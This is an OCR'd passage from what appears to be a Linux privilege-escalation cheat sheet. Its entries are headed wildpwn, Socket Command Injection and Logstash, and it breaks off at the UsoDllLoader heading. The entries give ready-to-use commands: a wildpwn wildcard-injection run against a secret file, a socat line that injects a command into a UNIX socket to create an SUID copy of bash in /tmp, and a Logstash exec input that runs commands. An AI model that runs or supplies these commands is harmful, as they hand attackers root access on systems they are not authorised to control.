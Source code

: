OS: Linux

Type: Injection

Methods:

-   python wildpwn.py \--file /tmp/very_secret_file combined ./pwn_me/

<a name="socket-command-injection"></a>
# Socket Command Injection

Domain: No

Local Admin: Yes

OS: Linux

Type: Injection

Methods:

-   echo \"cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x
    > /tmp/bash;\" \| socat - UNIX-CLIENT:/tmp/socket_test.s

<a name="logstash"></a>
# Logstash

Domain: No

Local Admin: Yes

OS: Linux

Type: Injection

Methods:

-   /etc/logstash/logstash.yml

-   input {

> exec {

command =\> \"whoami\"

interval =\> 120

}

}

<a name="usodllloader"></a>
# UsoDllLoader

Domain: No

Local Admin: Yes
